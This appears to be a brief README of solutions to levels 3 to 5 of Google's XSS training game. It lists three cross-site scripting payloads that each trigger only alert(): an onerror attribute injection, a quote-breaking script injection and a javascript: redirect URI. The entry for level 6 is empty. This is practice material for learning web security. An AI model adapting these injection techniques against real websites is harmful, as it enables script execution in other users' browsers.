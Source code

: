 # attaqueXSS2


Challenge 3 : https://xss-game.appspot.com/level3/frame#' onerror='alert();//

Challenge 4 : 1'**alert());//

Challenge 5 : https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()

Challenge 6 :
